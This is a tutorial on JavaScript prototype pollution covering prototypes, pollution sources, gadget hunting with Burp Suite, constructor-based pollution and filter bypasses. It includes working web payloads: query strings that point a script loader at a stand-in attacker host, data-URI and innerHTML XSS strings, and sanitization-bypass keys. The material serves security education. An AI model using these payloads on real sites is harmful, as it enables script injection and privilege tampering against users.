

Prototype pollution is a JavaScript vulnerability that allows an attacker to inject arbitrary properties into an object's prototype, potentially affecting all objects that inherit from it.
In JavaScript, an object is a collection of key-value pairs known as properties. For example:
const user = {
username: "wiener",
userId: 01234,
isAdmin: false
}There are two ways to access an object's properties:
user.username // "wiener"
user['userId'] // 01234Objects can also contain functions, which are known as methods.
Each object in JavaScript is linked to another object of some kind, known as its prototype. JavaScript automatically assigns one of its built-in prototypes to a new object. For example, a JavaScript string is assigned String.prototype. Other examples include Object.prototype, Array.prototype, and Number.prototype.
Inheritance in JavaScript
In JavaScript, when you reference a property of an object, the JavaScript engine first tries to access that property directly on the object itself. If the property is not found on the object, it will look for it in the object's prototype. This allows you to do things like myObject.propertyA.

Accessing an Object's Prototype Using __proto__
Every JavaScript object has a special property that allows access to its prototype. In most browsers, this property is exposed as __proto__.
The __proto__ property acts as both a getter and setter for an object's prototype. It can be accessed in two ways:
username.__proto__username['__proto__']
`username['__proto__']`You can also chain __proto__ to traverse the prototype chain and access the prototypes from which an object inherits:
username.__proto__ // String.prototype
username.__proto__.__proto__ // Object.prototype
username.__proto__.__proto__.__proto__ // nullModifying Prototypes
Although it is generally considered bad practice, JavaScript allows developers to modify an object's prototype.
For example, modern JavaScript includes the trim() method for strings. However, developers can also implement similar functionality manually:
String.prototype.removeWhitespace = function(){
// remove leading and trailing whitespace
}
let searchTerm = " example ";
searchTerm.removeWhitespace(); // "example"Where Prototype Pollution Vulnerabilities Come From
Prototype pollution vulnerabilities occur when an object containing user-controlled properties is merged with an existing object without proper sanitization.
This can allow an attacker to inject a property such as __proto__, causing properties inside it to be assigned to the object's prototype instead of the object itself.
Example of a malicious payload:
{
"__proto__": {
"isAdmin": true
}
}Prototype Pollution Sources
Prototype pollution sources are any user-controlled inputs that allow attackers to inject arbitrary properties into object prototypes.
Common sources include:
- URL query strings or fragments (
hash) - JSON-based input
- Web messages (
postMessage)
Prototype Pollution via URL Parameters
Example :
https://vulnerable-website.com/?__proto__[evilProperty]=payloadEverything after the ? is a query string. Many frameworks and URL parsers automatically convert query parameters into JavaScript objects:
{
existingProperty1: 'foo',
existingProperty2: 'bar',
__proto__: {
evilProperty: 'payload'
}
}The vulnerability appears when developers merge this object into another object:
merge(targetObject, queryParams)They may expect the result to simply contain an extra property, but instead this happens:
targetObject.__proto__.evilProperty = 'payload';Because JavaScript treats __proto__ as a special property, evilProperty is written into Object.prototype.
As a result, every object inheriting from Object.prototype will now contain the malicious property.
Prototype Pollution via JSON Input
User-controlled objects are often created from JSON using JSON.parse().
Unlike object literals, JSON.parse() treats __proto__ as a normal string key.
Suppose an attacker sends this JSON through a web message:
{
"__proto__": {
"evilProperty": "payload"
}
}When converted to JavaScript:
const objectLiteral = {__proto__: {evilProperty: 'payload'}};
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');
objectLiteral.hasOwnProperty('__proto__'); // false
objectFromJson.hasOwnProperty('__proto__'); // trueIf this parsed object is later merged into another object, it can lead to prototype pollution.
Client-Side Prototype Pollution
XSS via Query String
Many objects rely on default property values when a property is undefined:
let transport_url = config.transport_url || defaults.transport_url;Now imagine transport_url is used to load a script dynamically:
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);If the developer never defines transport_url in config, this becomes a potential gadget. An attacker could pollute Object.prototype and inject a malicious transport_url.
Example exploit:
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.netDirect XSS is also possible using a data: URI:
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//Finding Prototype Pollution Manually
1. Inject a Property
Attempt to inject an arbitrary property using a query string, URL fragment, or JSON input:
vulnerable-website.com/?__proto__[foo]=barThen inspect Object.prototype in the browser console:
Object.prototype.foo
// "bar" indicates successful prototype pollution
// undefined indicates the attack failedIf bracket notation fails, try dot notation:
vulnerable-website.com/?__proto__.foo=barIf neither works, the application may still be vulnerable through the constructor.prototype technique.
2. Find a Gadget
Look for properties used throughout the codebase or imported libraries.
In Burp Suite:
- Enable Intercept server responses (
Proxy > Options > Intercept server responses) - Intercept the JavaScript response you want to analyze
- Add a
debuggerstatement at the top of the script - Open the page so execution pauses
While execution is paused, paste this into the browser console:
Object.defineProperty(Object.prototype, 'YOUR_PROPERTY', {
get() {
console.trace();
return 'polluted';
}
})This adds a getter to Object.prototype that logs a stack trace whenever the property is accessed.
Resume execution and monitor the console:
- If a stack trace appears, the property was used by the application
- Inspect the code path
- Check whether the property reaches dangerous sinks such as:
eval()innerHTML- dynamic script loading
Repeat until you identify an exploitable gadget.
Prototype Pollution via the Constructor
Every object has a constructor, and constructors are themselves objects.
Because constructors contain a prototype property pointing to the prototype of created objects, attackers can access prototypes like this:
myObject.constructor.prototype // Object.prototypeEquivalent JSON payload:
{
"constructor": {
"prototype": {
"isAdmin": true
}
}
}Bypassing Flawed Key Sanitization
Some applications attempt to block prototype pollution by removing the string __proto__.
However, poorly implemented filters can often be bypassed:
/?__pro__proto__to__[foo]=bar/?__pro__proto__to__.foo=bar/?constconstructorructor[protoprototypetype][foo]=bar/?constconstructorructor.protoprototypetype.foo=barPrototype Pollution in Third-Party Libraries
Third-party libraries are a common source of prototype pollution vulnerabilities.
For client-side testing, tools such as DOM Invader are particularly useful for identifying vulnerable sinks and gadgets.
Prototype Pollution via Browser APIs
Modern browser APIs expose many potential prototype pollution gadgets.
Prototype Pollution via fetch()
Example vulnerable code:
fetch('/my-products.json',{method:"GET"})
.then((response) => response.json())
.then((data) => {
let username = data['x-username'];
let message = document.querySelector('.message');
if(username) {
message.innerHTML = `My products. Logged in as <b>${username}</b>`;
}
let productList = document.querySelector('ul.products');
for(let product of data) {
let product = document.createElement('li');
product.append(product.name);
productList.append(product);
}
})
.catch(console.error);Exploit:
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>Prototype Pollution via Object.defineProperty()
Developers aware of prototype pollution sometimes attempt to mitigate it using Object.defineProperty().
This function allows creation of properties that are non-configurable and non-writable:
Object.defineProperty(vulnerableObject, 'gadgetProperty', { configurable: false, writable: false })Object.defineProperty() accepts an options object called a descriptor.
Developers often use this descriptor to initialize property values, meaning attackers may target the descriptor object itself.
If an attacker can pollute the descriptor before it is passed into Object.defineProperty(), the polluted properties may still affect the resulting object.